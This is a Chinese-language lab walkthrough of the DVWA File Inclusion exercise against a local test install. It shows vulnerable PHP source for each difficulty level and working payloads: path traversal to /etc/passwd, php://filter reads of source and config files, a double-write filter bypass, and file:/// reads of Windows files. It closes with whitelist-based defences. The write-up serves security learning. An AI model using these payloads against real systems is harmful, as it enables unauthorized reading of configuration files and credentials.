





# File Inclusion
在PHP中，常见的文件包含函数有：
```html
include()
include_once()
require()
require_once()
```
**如果程序把用户可控参数直接传入这些函数，就可能出现文件包含漏洞**
例如:
```html
$file = $_GET['page'];
include($file);
```
用户访问
```html
?page=include.php
```
服务器执行
```html
include("include.php");
```
如果用户传
```html
?page=../../../../etc/passwd
```
服务器可能就会尝试包含并显示系统文件：
```html
include("../../../../etc/passwd");
```
**这就是典型的本地文件包含漏洞**

# Low等级实操
### 源码分析
```html
$file = $_GET['page'];
include($file);
```
**几乎没有任何过滤，这意味着用户传什么，后端就包含什么**
### 实操
访问
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=include.php
```
如果页面正常显示，说明后端成功包含了include.php
## 路径穿越读取Linux文件
尝试读取Linux常见系统文件：
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```
如果成功，页面会显示类似:
```html
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
如果没成功，可以增加或减少../的层数:
```javascript
?page=../../../etc/passwd
?page=../../../../etc/passwd
?page=../../../../../etc/passwd
?page=../../../../../../etc/passwd
```
**原因是你需要从当前PHP文件所在目录逐层返回到系统根目录**
## Windows读取文件
可以尝试手游哪个php://filter读取源码（我用的版本是7.3.4）
```javascript
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resou
  rce=D:/phpstudy_pro/Extensions/php/php7.3.4nts/php.ini
```
会返回一大段Base64字符串，复制后在本地解码，即可获取内容

## 读取当前模块源码
```html
在URL中输入:http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php，将获取的base64码进行解码，即可知道当前源码
```

## 读取Php配置文件
```HTML
在URL中输入http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resou
  rce=D:/phpstudy_pro/Extensions/php/php7.3.4nts/php.ini
```
或者
```javascript
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resou
  rce=../../../../Extensions/php/php7.3.4nts/php.ini
```
出码图


# Medium等级实操：对输入进行简单的替换
例如:
```html
$file = $_GET['page'];

$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);
$file = str_replace("../", "", $file);
$file = str_replace("..\\", "", $file);

include($file);
```
medium等级会过滤掉以下内容
```javascript
http://
https://
../
..\
```
### 实操一：正常访问
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=include.php
```
正常显示，
### 实操二：直接路径穿越失败
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```
>可能是失败，因为后端会把../替换为空
1. 当输入：../../../../etc/passwd
2. 经过过滤后可能变成： etc/passwd
3. 所以读取失败
### 实操三：使用双写绕过
因为程序只替换一次，可以构造
```html
....//
```
这个字符串中包含
```html
../
```
被替换后：
···html
....// -> ../
```
所以可以用以下内容访问
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resou
  rce=....//....//....//....//Extensions/php/php7.3.4nts/php.ini
```
如果是linux系统的内容，可以利用
```javascript
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```
效果图：
### 实操四：php:filter是否可用
Medium主要是过滤：
```javascript
http://
https://
../
```
但是不会过滤
```html
php://filter
```
所以可以尝试读取当前目录下的文件：
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php
```
如果是要读取上级目录中的文件，需要结合路径绕过
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=....//....//config/config.inc.php
```
如果路径不对，可以继续调整层级

## Medium等级可学习的知识点
1. 黑名单过滤的缺陷
2. str_replace() 过滤不彻底的问题
3. 双写绕过思想
4. 路径穿越过滤绕过
5. 协议头过滤绕过
6. 过滤顺序对安全性的影响
7. 为什么安全防护不能只依赖字符串替换

# High等级实操
1. 源码分析
```javascript
$file = $_GET['page'];

if (!fnmatch("file*", $file) && $file != "include.php") {
    echo "ERROR: File not found!";
    exit;
}

include($file);
```
只有满级一下条件之一才允许包含：
1. include.php
2. **file开头的内容**
3. 允许
```javascript
file1.php
file2.php
file3.php
```
4. 但是会阻止
```html
../../../../etc/passwd
php://filter/...
http://...
```
## 实操一：普通路径穿越失败
尝试
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=../../../../../../Windows/win.ini
```
预期失败，原因是
```html
../../../../../../Windows/win.ini
```
不是以file开头，也不等于include.php
## 实操二：使用windows反斜杠路径尝试
也可以尝试windows原生路径分隔符
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=..\..\..\..\..\..\Windows\win.ini
```
但是仍然会失败，因为High难度的前缀校验会拦截它

## High难度下真正可能成功的windows测试方法
1. 因为High允许file*
2. 可以可以利用file://
3. 因为他正好以file开头
>使用file://读取windows win.ini
可以尝试:
>http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///C:/Windows/win.ini
如果成功，页面可能显示类似
```html
[fonts]
[extensions]
[mci extensions]
[files]
```

**这个文件是 Windows 常见的测试文件，通常用于验证本地文件读取是否成功。**

### 使用file://读取windows hosts文件
可以尝试:
```html
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///C:/Windows/System32/drivers/etc/hosts
```
可以看到类似内容


# High 难度 Windows 测试 Payload总结
| 目的 | Payload | High 结果 |
|---|---|---|
| 普通穿越读取 win.ini | `?page=../../../../../../Windows/win.ini` | 通常失败 |
| 反斜杠穿越 | `?page=..%5c..%5c..%5cWindows%5cwin.ini` | 通常失败 |
| 读取 hosts | `?page=../../../../../../Windows/System32/drivers/etc/hosts` | 通常失败 |
| file 协议读取 win.ini | `?page=file:///C:/Windows/win.ini` | 可能成功 |
| file 协议读取 hosts | `?page=file:///C:/Windows/System32/drivers/etc/hosts` | 可能成功 |
| file 协议读取 DVWA 配置 | `?page=file:///C:/xampp/htdocs/dvwa/config/config.inc.php` | 可能执行/显示异常 |
## 关键理解
1. 在high难度里面?page=../../../../../../Windows/win.ini，失败的原因不是路径错了，是白名单的逻辑阻止了他
2. 但是?page=file:///C:/Windows/win.ini可能成功，是因为他满足fnmatch("file*", $file)
3. 也就是说file:///C:/Windows/win.ini，以file开头，所以通过了high的判断
4. 因此在windows环境下，High难度真正值得尝试的是：?page=file:///C:/Windows/win.ini和?page=file:///C:/Windows/System32/drivers/etc/hosts

# Impossible等级实操
## 源码分析,采用严格白名单
```html
$file = $_GET['page'];

if ($file != "include.php" &&
    $file != "file1.php" &&
    $file != "file2.php" &&
    $file != "file3.php") {
    echo "ERROR: File not found!";
    exit;
}

include($file);
```
1. 实操一：路径穿越失败
>http://127.0.0.1/dvwa/vulnerabilities/fi/?page=../../../../../../win.ins
2. 实操二：file://协议失败
>http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///etc/passwd
3. 实操三:php://filter失败：
>http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php

## 你需要了解到
1. 严格白名单是防御文件包含漏洞的有效方式
2. 应该限制用户只能选择固定文件
3. 不应该让用户直接控制真实文件路径
4. 使用数组映射比直接拼接路径安全
5. 安全设计优于后期过滤